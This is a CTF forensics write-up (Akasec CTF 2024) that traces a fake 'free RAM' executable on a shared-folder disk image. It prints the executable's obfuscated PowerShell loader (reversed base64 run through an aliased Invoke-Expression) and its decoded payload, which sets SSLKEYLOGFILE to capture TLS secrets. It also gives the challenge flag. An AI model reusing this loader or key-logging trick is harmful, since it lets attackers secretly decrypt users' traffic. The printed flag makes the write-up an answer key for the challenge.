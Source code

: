 # Akasec CTF 2024 – Sharing Is Not Caring 👃

- **Category:** Forensics
- **Points:** 257
- **Solves:** 40

## Challenge

> My friends and I use the same computer on campus and have a shared folder to exchange files. After submitting the flag for the challenge, it was leaked, and someone obtained it without my knowledge. I'm unsure how they got it. I accidentally left my computer unlocked at the coffee shop while I stepped away. I'm sure that someone took advantage of the opportunity and was searching for something.
>
> Author: d33znu75
>
> Attachments: [disk.ad1 & network.pcapng](https://we.tl/t-aZRdo6r3XC)

## Solution

A major part of this challenge was solved by my teammate `@Inés`. Upon seeing a `ad1` file, the first thing that comes to mind is to put it in `FTK Imager` to analyze it. So, let's start off with that. Reading the challenge description, we can see that the challenge is related to a shared folder, so we can look for the shared folder in the disk image, which is usually located at `C:\Users\Public\Documents`.

![ftk_imager](assets/ftk_imager.png)

From the image above, we can see that there is a file called [GUYS download free RAM here!!!!.txt](solution/GUYS%20download%20free%20RAM%20here!!!!.txt), with a URL. So, let's try to `cURL` the URL to see what it contains.

```
└─$ curl http://freerambooster.000webhostapp.com/
# ...
https://cdn.discordapp.com/attachments/1067452256686981161/1248702817451905140/FREE_RAM.exe?ex=6665f21f&is=6664a09f&hm=61de04bb5a288d775eeb5454ebc524101914fc2b29efb0b137b27a5d7dd4ae3b&
# ...
```

We can open [FREE_RAM.exe](solution/FREE_RAM.exe) in `ILspy` to decompile it, and see what it does. There is a script attached to the executable called `free_raw.ps1`.

```powershell
$best64code = "iQWZ0N3bvJGIlJGIuF2Yg0WYyBybuBiLlV3czlGIsF2Yp5GajVGdgI3bmBSeyJ3bzJCIy9mcyVULlRXaydlCNoQDpcSZulGajFWTnACLlxWaGd2bMlXZLx2czRCIscSRMlkRH9ETZV0SMN1UngSZsJWYpJXYWRnbl1mbvJXa25WR0V2U6oTX05WZt52bylmduVkLtVGdzl3UbpQDK0QfK0QZslmRgUGc5RVblRXStASZslmRn9GT5V2SsN3ckACa0FGUtASblRXStcXZOBCIgAiCNsHIpkSZslmRn9GT5V2SsN3ckACa0FGUtQ3clRFKgQ3bu1CKgYWaK0gCNoQDic2bs5SeltGbzNHXr5WacBVVOdUSTxlclJ3bsBHeFBCdl5mclRnbJx1c05WZtV3YvREXjlGbiVHUcNnclNXVcpzQiASPgUGbpZ0ZvxUeltEbzNHJ" ;
$base64 = $best64code.ToCharArray() ; [array]::Reverse($base64) ; -join $base64 2>&1> $null ;
$LOADCode = [System.text.EnCOdING]::UTF8.getsTRiNg([sysTEm.coNvErT]::FromBASe64stRInG("$BaSe64")) ;
$PWN = "Inv"+"Oke"+"-ex"+"prE"+"SsI"+"ON" ; nEW-aLIas -naMe PWN -ValuE $pWN -foRce ; pwn $lOadCODe ;
```

By simply adding `Write-Output $LOADCode` to the end of the script, and removing the `$PWN` variable, we can get the deobfuscated code.

```powershell
$sslKeyLogFile = "C:\Users\Public\Documents\Internet Explorer\SIGNUP\ink\sslkey.log"


if (-not (Test-Path $sslKeyLogFile)) {
    New-Item -Path $sslKeyLogFile -ItemType File
}

[System.Environment]::SetEnvironmentVariable('SSLKEYLOGFILE', $sslKeyLogFile, 'Machine')

Write-Error "sorry for technical issue. no ram can be boosted"
```

From the deobfuscated code, we can see that the script creates a file called `sslkey.log` at `C:\Users\Public\Documents\Internet Explorer\SIGNUP\ink\sslkey.log`, and sets the `SSLKEYLOGFILE` environment variable to the path of the file. This file can be recovered from the `disk.ad1` file using `FTK Imager`.

```
└─$ cat sslkey.log
CLIENT_HANDSHAKE_TRAFFIC_SECRET 1883768c955100059c9e4ebcd16d8168e762436f65f66aaf905680f3e8a439a6 35f05c44c0d5cd5b9b80622cc6f7314895a0a0a45a2fa249291a509db8156256
SERVER_HANDSHAKE_TRAFFIC_SECRET 1883768c955100059c9e4ebcd16d8168e762436f65f66aaf905680f3e8a439a6 3a8ec62b1e2b1505ce7a44f1a7977490f302beef16c993b28ac4b1b512a2db76
CLIENT_RANDOM 53172363ba45dbe949f9f5c237c39b4a14f2a9d55cefb751420120a105a07c3e d877c33bdfa568ecc0c2e2304814cc9160209eee8d6b2ffb620f198a451d488010786fd0e7b4bf9c03a462b2af3aa1f8
# ...
```

From the output, we can see that the [sslkey.log](solution/sslkey.log) contains the `CLIENT_HANDSHAKE_TRAFFIC_SECRET`, `SERVER_HANDSHAKE_TRAFFIC_SECRET`, and `CLIENT_RANDOM`. This file can be used to decrypt the [network.pcapng](handout/network.pcapng) file using `Wireshark`.

After decrypting the traffic, we can simply search for the flag in the decrypted traffic, which can be found at packet `3014`, and is `AKASEC{B4s1c_M4lw4r3_4nd_PC4P_4n4lys1s}`.

![wireshark](assets/wireshark.png)
